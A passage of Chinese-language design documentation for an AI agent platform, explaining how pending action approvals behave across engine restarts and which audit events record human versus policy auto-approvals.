**有一个例外：engine 重启。** 挂起的循环位于内存中，因此重启会把它一并带走。这种情况下任务**不会**继续等待：它回到被阻塞队列，事件日志中有原因和来源 `infra`，此后做出的决定不再有地方应用——已决定的动作被记录，但等待它的轮次已不存在。如果你批准了而什么都没发生，这里是首先要看的地方。

自动批准不经过这里：它在提案时执行，结果在同一轮次中返回——这正是拥有上一节那些模式的价值所在。

**Dev Lead 以同样方式挂起，但在重启时有一处不同**
（ADR 0086，[RN-284](../business-rules.md#rn-284)）。它是对话型的，没有 worktree 也没有任务——挂起的是轮次的同步 `handle_call`，经由 `agent.status: awaiting_approval`。与 dev agent 不同，它在 engine 重启时**没有**可以回去的队列：决定仍被记录并在“审批”中可见，但 Dev Lead 不会自己讲述结果——等待的进程已死，下一次重启会启动一个新的 Dev Lead，没有对该动作的订阅。这是一个被接受并声明的缺口，而非掩饰。

## 每次决定记录什么

每个提出的动作以及对它的每个决定都会成为 `session_events` 中的一个**领域事件**，带有真实的行动者
（[RN-049](../business-rules/custo.md#rn-049)）：

| 事件 | 行动者 | 何时 |
|---|---|---|
| `proposed_action.created` | 提出它的 **agent** | 总是，在任何执行之前。`payload.status` 说明动作如何诞生：`pending`、`auto_approved` 或 `denied`；`payload.reason` 说明是 `decide()` 的哪条规则产生了它（[RN-567](../business-rules.md#rn-567)） |
| `proposed_action.approved` | 点击的**用户** | 仅在手动批准时（包括 `approve_always`） |
| `permission.granted` | 点击“始终允许”的**用户** | 仅当这次点击确实写入了模式——`payload.patterns`（写入的模式，每个片段一个，[RN-675](../business-rules.md#rn-675)）和 `payload.pattern`（同一列表以 ", " 连接），或对模块 dev agent 为 `payload.agentId`/`actionType`（[RN-642](../business-rules.md#rn-642)） |
| `proposed_action.denied` | 拒绝的**用户** | 带 `payload.reason` |
| `action.executed` / `action.failed` | `system` | 执行的结果 |

由此得出区分本文所描述两件事的唯一可靠方法：

- **人的决定** = 统计 `proposed_action.approved` 事件；
- **策略的决定** = `status:
  auto_approved` 且行动者为 agent 的 `proposed_action.created`。它从不产生 `.approved`，因此从不与点击混淆。它的 `reason` 说明是**哪条**规则自动批准的——`agent_autonomy: auto_approve`、`permissions.json` 的一行 `allow`、容器下限、`escopo: cd dentro da pasta do
  projeto`——采用 `decide()` 使用的确切文本。在
  [RN-567](../business-rules.md#rn-567) 之前写入的事件没有 `reason`：请将其理解为“未记录”，而不是“没有规则”。原因点名的是规则，而不是范围的根；自 [RN-609](../business-rules.md#rn-609) 起，`terminal` 动作的事件还带有 `scopeRoot`——执行模式加上路径范围所比较的根的一个**相对**标识（`container`/`runner` 中为
  `workspace_dir_name`，`mounted` 中为
  `BRABO_PROJECTS_BASE` 之下的片段），绝不是绝对路径，后者会把用户的
  `$HOME` 暴露给每个成员。outbox 的行既不带 `reason` 也不带
  `scopeRoot`——engine 的任何消费者都不读取它们。自
  [RN-614](../business-rules.md#rn-614) 起，界面显示两者，组成一句由单一函数构造的话：在会话日志面板的事件行中，以及在审批卡片中（会话聊天和“审批”标签页的队列）。较旧的事件显示“未记录”，当事件不在该界面已加载的事件中时，卡片也会这样显示。

直到 Fase 12e 这都不成立。前三行**只进入 outbox**，而 outbox 是传输——被清空、标记 `processed_at` 并被修剪——决定只存活在 `proposed_actions.decided_at` 中，这是界面、心理学家和 Anamnese 读取的时间线之外的一列。实际结果是，在 Fase 10 的 dogfooding 中无法回答“人批准了多少次”，而这恰恰是那次实验的主要指标。

仓库的 bootstrap 是有意的例外：它提出的变更不会在日志中发出 `proposed_action.created`，因为它们已在同一会话中由
`bootstrap.step_*` 讲述——再次计数会用没人批准的工作虚增审批指标。
